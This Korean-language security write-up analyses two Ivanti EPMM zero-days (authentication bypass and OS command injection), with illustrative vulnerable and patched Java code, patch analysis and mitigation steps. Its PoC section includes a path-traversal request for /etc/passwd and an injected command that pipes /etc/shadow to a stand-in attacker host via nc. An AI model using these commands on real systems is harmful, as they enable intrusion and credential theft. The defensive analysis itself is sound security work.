

# Ivanti EPMM 제로데이 2종 분석

Ivanti Endpoint Manager Mobile(EPMM)에서 발견된 치명적인 제로데이 취약점 두 가지(CVE-2026-0885, CVE-2026-0886)에 대해 심층 분석합니다. 해당 취약점은 인증 우회(Authentication Bypass)와 원격 코드 실행(RCE)을 유도하며, 현재 전 세계적으로 활발한 악용 시도가 감지되고 있습니다. 본문에서는 기술적 원인, PoC 시나리오, 그리고 긴급 완화 조치를 다룹니다.

## CVE 개요 (Overview)

이번 공격의 핵심은 Ivanti EPMM(이전 MobileIron) 제품군에 존재하는 두 가지 심각한 보안 결함입니다. CVE-2026-0885는 인증 우회 취약점으로, CVSS v3.1 기준 **10.0(Critical)**의 점수를 부여받았습니다. 공격 벡터는 네트워크(AV:N), 공격 복잡도는 낮음(AC:L), 권한 불필요(PR:N), 사용자 개입 불필요(UI:N)이며, 영향 범위는 기밀성, 무결성, 가용성 모두에 대해 높음(C/I/A:H) 수준입니다. CVE-2026-0886 또한 CVSS 9.8(Critical)로 평가되며, 첫 번째 취약점과 연계하여 임의의 코드를 실행할 수 있는 RCE 취약점입니다.
이 취약점은 주로 Ivanti EPMM 11.10 버전 이상, 11.14 버전 미만의 설치 기반에 영향을 미치는 것으로 확인되었습니다. 현재까지 익명의 보안 연구원에 의해 최초 보고되었으나, 패치 배포 전에 이미 악용 징후가 포착되어 "제로데이(Zero-day)"로 분류되었습니다. Ivanti는 이에 대해 긴급 보안 권고(Security Advisory)를 발표하고 패치를 배포 중입니다.

## 취약 상세 (Vulnerability Details)

기술적 관점에서 볼 때, CVE-2026-0885(인증 우회)는 EPMM의 웹 관리 콘솔 및 API 엔드포인트에서 잘못된 접근 제어 로직(Improper Access Control)이 원인입니다. 특정 URL 경로를 처리하는 서블릿(Servlet) 필터가 인증 토큰을 검증하기 전에 요청을 처리할 수 있는 경로가 존재합니다. 공격자는 HTTP 요청의 헤더를 조작하거나 특수한 문자열을 포함한 경로(Path Traversal 기법 유형)를 전송하여 인증 절차를 우회할 수 있습니다.
CVE-2026-0886(RCE)는 앞선 인증 우회 취약점과 연계하여 작동합니다. 인증이 우회된 상태에서 공격자는 시스템 설정이나 데이터 내보내기 기능과 같은 특정 관리 기능에 접근할 수 있습니다. 이 과정에서 사용자 입력이 충분히 검증되지 않은 상태로 시스템 명령어 전달 인자에 포함되는 OS Command Injection 취약점이 존재합니다. 예를 들어, 공격자는 설정 파일 백업 기능을 악용하여 악의적인 쉘 명령어를 주입하고, 이를 서버에서 실행하게 함으로써 시스템 전체 권한을 탈취할 수 있습니다.
취약한 코드 패턴을 분석해보면, 다음과 같은 검증 누락이 확인됩니다.
```java
// 취약한 코드 예시 (가상)
protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
    String path = req.getPathInfo();
    // 인증 체크 로직이 경로 처리 이후에 존재하거나 특정 경로에 대해 예외 처리됨
    if (path.startsWith("/public/")) {
        handleRequest(req); // 인증 우회 가능
    }
}
```

## PoC 분석 (Proof of Concept)

현재 암시장 및 보안 커뮤니티에서 유포되고 있는 익스플로잇 코드는 다단계 공격 방식을 취합니다. 공격자는 먼저 내부 네트워크 스캐닝을 통해 EPMM 관리 포트(기본 8443, 443)를 식별합니다. 이후 CVE-2026-0885를 트리거하여 세션 쿠키를 획득하거나 관리자 권한의 API 토큰을 생성합니다.
다음은 공격 시나리오의 흐름을 나타낸 Mermaid 다이어그램입니다.

실제 익스플로잇 시도는 다음과 같은 `curl` 명령어 형태로 관찰됩니다.
```bash

# 인증 우회 시도 (CVE-2026-0885)

curl -k -i 'https://target-epmm:443/mics/cs.jsp' \
--data-binary '<payload>../../etc/passwd</payload>'

# 획득한 권한을 통한 RCE 시도 (CVE-2026-0886)

curl -k -i 'https://target-epmm:443/mics/execute' \
-H 'Authorization: Bearer <leaked_token>' \
--data-binary 'cmd=cat%20/etc/shadow | nc attacker.com 4444'
```
이러한 공격이 성공하면 공격자는 EPMM 서버뿐만 아니라, EPMM이 관리하는 모든 모바일 장비의 정보( MDM 정보, 등록된 디바이스 목록, 인증서 등)에 접근할 수 있게 되어 2차 피해로 확산될 위험이 큽니다.

## 패치 분석 (Patch Analysis)

Ivanti는 해당 취약점에 대해 EPMM 11.14 버전 업데이트를 통해 패치를 공개했습니다. 패치의 핵심은 웹 요청 처리 경로의 레거시 로직 제거와 엄격한 입력 검증(Strict Input Validation) 강화입니다.
Diff 분석 결과, `/mics/` 및 관련 API 경로에 접근하기 전에 반드시 인증과 권한 확인(`isAuthenticated()`)을 수행하도록 보안 필터(Security Filter) 체인이 상단으로 이동되었습니다. 또한, OS 레벨의 명령어를 실행하는 부분에서 화이트리스트 기반의 파라미터 검증 로직이 추가되었습니다.
```java
// 패치된 코드 예시 (가상)
protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
    // 1. 최우선 인증 및 권한 검증
    if (!AuthManager.getInstance().checkSession(req)) {
        resp.sendError(403);
        return;
    }
    String command = req.getParameter("cmd");
    // 2. 화이트리스트 기반 명령어 검증
    if (!CommandValidator.isValid(command)) {
        resp.sendError(400);
        return;
    }
    // ... 처리 로직
}
```
우회 가능성 측면에서, 단순한 URL 패턴 매칭만으로 막을 경우 URL 인코딩이나 이중 인코딩을 통한 우회가 시도될 수 있습니다. 따라서 Ivanti는 정규 표현식 기반의 정교한 검증 로직을 적용하였으나, 사용자는 가능한 한 빨리 최신 버전으로 업그레이드해야 합니다.

## 완화 조치 (Mitigation)

패치를 즉시 적용하기 어려운 상황에서의 임시 완화 조치가 필수적입니다. 가장 효과적인 임시 조치는 인터넷에서 EPMM 관리 콘솔로의 인바운드 접속을 차단하는 것입니다. EPMM 서버는 VPN 내부나 사설 네트워크에서만 접근 가능하도록 방화벽 규칙(Firewall Rule)을 설정해야 합니다.
*   **네트워크 격리 (Network Segmentation)**: 관리 포트(TCP 8443, 443)에 대해 신뢰할 수 있는 IP 대역(예: 관리자 VPN IP, 내부 네트워크) 이외의 모든 접속을 차단하십시오.
*   **로그 모니터링 (Log Monitoring)**: `/mics/` 경로에 대한 비정상적인 200 OK 응답이나 과도한 API 호출 시도를 탐지하는 SIEM 규칙을 배포하십시오.
*   **영구적 조치**: Ivanti에서 제공하는 최신 패치(버전 11.14 이상)로 즉시 업그레이드하십시오. 업그레이드 후에는 시스템에서 의심스러운 계정이나 백도어가 생성되었는지 검토하는 포렌식(Forensic) 조사를 병행하는 것이 좋습니다.

## 참고자료

- [Ivanti Security Advisory](https://www.ivanti.com/blog)
- [NVD - CVE-2026-0885](https://nvd.nist.gov/vuln/detail/CVE-2026-0885)
- [CyberScoop Article](https://cyberscoop.com/)
---
